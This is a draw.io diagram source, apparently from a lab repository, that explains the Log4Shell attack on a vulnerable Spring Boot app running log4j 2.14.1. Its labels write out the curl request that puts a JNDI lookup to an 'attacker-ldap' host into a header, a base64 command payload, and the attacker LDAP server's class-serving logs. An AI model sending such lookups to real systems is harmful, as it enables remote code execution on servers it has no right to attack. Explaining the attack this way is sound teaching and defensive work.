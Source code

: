 <mxfile version="16.0.3" type="device"><diagram id="7uBxj0XR9k4HUgkae3Xs" name="Page-1"><mxGraphModel dx="2249" dy="752" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0"><root><mxCell id="0"/><mxCell id="1" parent="0"/><mxCell id="5qZljil60v8KzYpT_ptI-1" value="&lt;div style=&quot;font-size: 17px&quot;&gt;&lt;p&gt;&lt;b&gt;&lt;font style=&quot;font-size: 17px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;victim webapp&lt;/span&gt;&lt;/font&gt;&lt;/b&gt; (&lt;font style=&quot;font-size: 17px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;b&gt;victim:8080&lt;/b&gt;)&lt;br&gt;&lt;/span&gt;&lt;/font&gt;&lt;/p&gt;&lt;p align=&quot;left&quot;&gt;&lt;font style=&quot;font-size: 14px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;spring-boot-starter-web:2.6.1&lt;br&gt;&amp;nbsp;&amp;nbsp; &lt;strike&gt;spring-boot-starter-logging&lt;/strike&gt;&lt;/span&gt;&lt;/font&gt;&lt;/p&gt;&lt;p align=&quot;left&quot;&gt;&lt;font style=&quot;font-size: 14px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;spring-boot-starter-log4j2:2.6.1&lt;br&gt;&amp;nbsp;&amp;nbsp; log4j-*:2.14.1&lt;/span&gt;&lt;/font&gt;&lt;/p&gt;&lt;/div&gt;&lt;p style=&quot;font-size: 14px&quot;&gt;&lt;font style=&quot;font-size: 14px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/p&gt;&lt;p&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;/span&gt;&lt;/p&gt;" style="rounded=1;whiteSpace=wrap;html=1;verticalAlign=top;" parent="1" vertex="1"><mxGeometry x="501" y="210" width="549" height="840" as="geometry"/></mxCell><mxCell id="5qZljil60v8KzYpT_ptI-2" value="&lt;div style=&quot;font-size: 17px&quot;&gt;&lt;p&gt;&lt;b&gt;&lt;font style=&quot;font-size: 17px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;attacker modified LDAP server&lt;br&gt;&lt;/span&gt;&lt;/font&gt;&lt;/b&gt;&lt;/p&gt;&lt;b&gt;&lt;font style=&quot;font-size: 17px&quot;&gt;&lt;br&gt;&lt;/font&gt;&lt;/b&gt;&lt;/div&gt;&lt;p style=&quot;font-size: 17px&quot;&gt;&lt;b&gt;&lt;font style=&quot;font-size: 17px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/b&gt;&lt;/p&gt;&lt;p style=&quot;font-size: 17px&quot;&gt;&lt;b&gt;&lt;font style=&quot;font-size: 17px&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/b&gt;&lt;/p&gt;" style="rounded=1;whiteSpace=wrap;html=1;verticalAlign=top;" parent="1" vertex="1"><mxGeometry x="-170" y="770" width="324" height="210" as="geometry"/></mxCell><mxCell id="5qZljil60v8KzYpT_ptI-4" value="" style="endArrow=classic;html=1;rounded=0;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" edge="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="-94" y="440" as="sourcePoint"/><mxPoint x="480" y="440" as="targetPoint"/></mxGeometry></mxCell><mxCell id="5qZljil60v8KzYpT_ptI-5" value="curl -s victim:8080 -H 'X-Api-Version:${jndi:ldap://attacker-ldap:1389/&amp;lt;command&amp;gt;}'" style="text;html=1;align=left;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;fontSize=14;fontFamily=Helvetica;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="-104" y="410" width="530" height="20" as="geometry"/></mxCell><mxCell id="5qZljil60v8KzYpT_ptI-6" value="HTTP GET" style="text;html=1;align=left;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;fontSize=14;fontFamily=Helvetica;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="-104" y="450" width="80" height="20" as="geometry"/></mxCell><mxCell id="5qZljil60v8KzYpT_ptI-7" value="&lt;font color=&quot;#FFFFFF&quot;&gt;1&lt;/font&gt;" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;fillColor=#000000;fontStyle=1" parent="1" vertex="1"><mxGeometry x="-104" y="370" width="30" height="30" as="geometry"/></mxCell><mxCell id="5qZljil60v8KzYpT_ptI-8" value="&lt;p&gt;&lt;font face=&quot;Helvetica&quot;&gt;&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;u&gt;MainController.class&lt;/u&gt;&lt;br&gt;&lt;/span&gt;logger.info(...)&lt;span style=&quot;background-color: transparent&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="565" y="408" width="260" height="60" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-1" value="&lt;font color=&quot;#FFFFFF&quot;&gt;2&lt;/font&gt;" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;fillColor=#000000;fontStyle=1" parent="1" vertex="1"><mxGeometry x="525" y="423" width="30" height="30" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-4" value="&lt;br&gt;WARN Error looking up JNDI resource [ldap://attacker-ldap:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9pd29ya2VkCg==]. &lt;br&gt;javax.naming.NamingException: problem generating object using object factory&lt;br&gt;&amp;nbsp;&amp;nbsp; remaining name '&quot;Basic/Command/Base64/dG91Y2ggL3RtcC9pd29ya2VkCg==&quot;'&lt;br&gt;at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)&lt;br&gt;at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)&lt;br&gt;at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)&lt;br&gt;at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)&lt;br&gt;at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)&lt;br&gt;at javax.naming.InitialContext.lookup(InitialContext.java:417)&lt;br&gt;at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)&lt;br&gt;...&lt;br&gt;at org.apache.logging.log4j.spi.AbstractLogger.info(AbstractLogger.java:1320)&lt;br&gt;at fr.christophetd.log4shell.vulnerableapp.MainController.index(MainController.java:18)&lt;br&gt;...&lt;br&gt;at org.springframework.web.servlet.FrameworkServlet.doGet(FrameworkServlet.java:898)&lt;br&gt;at javax.servlet.http.HttpServlet.service(HttpServlet.java:655)&lt;br&gt;...&lt;br&gt;&amp;nbsp;&amp;nbsp; at java.lang.Thread.run(Thread.java:748)&lt;br&gt;Caused by: java.lang.ClassCastException: Exploitt9L2pa0wmf cannot be cast to javax.naming.spi.ObjectFactory&lt;br&gt;&amp;nbsp;&amp;nbsp; at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)&lt;br&gt;&amp;nbsp;&amp;nbsp; at javax.naming.spi.DirectoryManager.getObjectInstance(DirectoryManager.java:189)&lt;br&gt;&amp;nbsp;&amp;nbsp; at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1085)&lt;br&gt;&amp;nbsp;&amp;nbsp; ... 88 more" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=top;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="350" y="1062" width="709" height="460" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-5" value="" style="endArrow=classic;html=1;rounded=0;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" edge="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="486" y="794" as="sourcePoint"/><mxPoint x="160" y="794" as="targetPoint"/></mxGeometry></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-6" value="" style="curved=1;endArrow=classic;html=1;rounded=0;fontFamily=Helvetica;fontSize=14;fontColor=#000000;entryX=0;entryY=0.75;entryDx=0;entryDy=0;" parent="1" edge="1" target="UeE2ja-ouuer7aSQzpNs-9"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="630" y="565" as="sourcePoint"/><mxPoint x="480" y="770" as="targetPoint"/><Array as="points"><mxPoint x="560" y="565"/><mxPoint x="430" y="590"/><mxPoint x="390" y="670"/><mxPoint x="460" y="760"/></Array></mxGeometry></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-7" value="&lt;font color=&quot;#FFFFFF&quot;&gt;3&lt;/font&gt;" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;fillColor=#000000;fontStyle=1" parent="1" vertex="1"><mxGeometry x="450" y="630" width="30" height="30" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-8" value="lookup JNDI" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="419" y="671.5" width="90" height="30" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-9" value="[+] New HTTP Request From /172.21.0.3:60502  /Exploitt9L2pa0wmf.class&#xA;[+] Receive ClassRequest: Exploitt9L2pa0wmf.class&#xA;[+] Response Code: 200" style="text;whiteSpace=wrap;html=1;fontSize=14;fontFamily=Helvetica;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="-156" y="860" width="490" height="70" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-10" value="" style="endArrow=classic;html=1;rounded=0;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" edge="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="168" y="950" as="sourcePoint"/><mxPoint x="486" y="950" as="targetPoint"/></mxGeometry></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-11" value="Object sérialisé : Exploitt9L2pa0wmf" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=top;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="203" y="966" width="240" height="30" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-12" value="Application decodes the response and triggers the payload" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" parent="1" vertex="1"><mxGeometry x="565" y="930" width="415" height="40" as="geometry"/></mxCell><mxCell id="1I7fN_VtLKCScaYQzDu0-13" value="" style="verticalLabelPosition=bottom;verticalAlign=top;html=1;shape=mxgraph.basic.8_point_star;labelBackgroundColor=#FF0000;fontFamily=Helvetica;fontSize=14;fontColor=#000000;fillColor=#FF0000;" parent="1" vertex="1"><mxGeometry x="570" y="980" width="40" height="40" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-1" value="server makes a request via JNDI" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" vertex="1" parent="1"><mxGeometry x="216" y="752" width="210" height="30" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-2" value="4" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#FFFFFF;fillColor=#000000;fontStyle=1" vertex="1" parent="1"><mxGeometry x="170" y="752" width="30" height="30" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-3" value="&lt;div&gt;command :&lt;/div&gt;&lt;div&gt;&lt;em&gt;jndi:ldap://attacker-ldap:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9pd29ya2VkCg==&lt;/em&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=top;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" vertex="1" parent="1"><mxGeometry x="-104" y="495" width="604" height="50" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-7" value="touch /tmp/iworked" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=top;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" vertex="1" parent="1"><mxGeometry x="630" y="987.5" width="134" height="25" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-8" value="5" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#FFFFFF;fillColor=#000000;fontStyle=1" vertex="1" parent="1"><mxGeometry x="515.5" y="936" width="30" height="30" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-9" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=#ffffff;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://docs.oracle.com/javase/jndi/tutorial/figures/jndi/getStarted/jndiarch.jpg;" vertex="1" parent="1"><mxGeometry x="515.5" y="535" width="520" height="325" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-10" value="" style="group" vertex="1" connectable="0" parent="1"><mxGeometry x="-100" y="558" width="434" height="25" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-4" value="" style="endArrow=classic;startArrow=classic;html=1;rounded=0;fontColor=#FFFFFF;" edge="1" parent="UeE2ja-ouuer7aSQzpNs-10"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="250" y="14" as="sourcePoint"/><mxPoint x="290" y="14" as="targetPoint"/></mxGeometry></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-5" value="dG91Y2ggL3RtcC9pd29ya2VkCg==" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=top;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" vertex="1" parent="UeE2ja-ouuer7aSQzpNs-10"><mxGeometry width="244" height="25" as="geometry"/></mxCell><mxCell id="UeE2ja-ouuer7aSQzpNs-6" value="touch /tmp/iworked" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=top;whiteSpace=wrap;rounded=0;labelBackgroundColor=none;fontFamily=Helvetica;fontSize=14;fontColor=#000000;" vertex="1" parent="UeE2ja-ouuer7aSQzpNs-10"><mxGeometry x="300" width="134" height="25" as="geometry"/></mxCell></root></mxGraphModel></diagram></mxfile>